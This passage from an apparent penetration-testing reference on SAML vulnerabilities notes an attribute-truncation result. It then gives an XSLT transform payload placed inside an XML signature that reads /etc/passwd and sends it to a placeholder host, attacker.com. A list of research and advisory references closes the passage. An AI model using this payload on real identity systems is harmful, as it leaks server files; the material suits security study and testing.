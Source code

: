 The SAML response is accepted by the service provider. Due to the vulnerability, the service provider application reports "taf" as the value of the "uid" attribute.

### Extensible Stylesheet Language Transformation

An XSLT can be carried out by using the `transform` element.

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

## References

* [Attacking SSO: Common SAML Vulnerabilities and Ways to Find Them - Jem Jensen - March 7, 2017](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
* [How to Hunt Bugs in SAML; a Methodology - Part I - Ben Risher (@epi052) - March 7, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
* [How to Hunt Bugs in SAML; a Methodology - Part II - Ben Risher (@epi052) - March 13, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
* [How to Hunt Bugs in SAML; a Methodology - Part III - Ben Risher (@epi052) - March 16, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
* [On Breaking SAML: Be Whoever You Want to Be - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann, and Meiko Jensen - August 23, 2012](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
* [Oracle Weblogic - Multiple SAML Vulnerabilities (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - July 18, 2018](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
* [SAML Burp Extension - Roland Bischofberger - July 24, 2015](https://blog.compass-security.com/2015/07/saml-burp-extension/)
* [SAML Security Cheat Sheet - OWASP - February 2, 2019](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
* [The road to your codebase is paved with forged assertions - Ioannis Kakavas (@ilektrojohn) - March 13, 2017](http://www.economyofmechanism.com/github-saml)
* [Truncation of SAML Attributes in Shibboleth 2 - redteam-pentesting.de - January 15, 2018](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)
* [Vulnerability Note VU#475445 - Garret Wassermann - February 27, 2018](https://www.kb.cert.org/vuls/id/475445/)
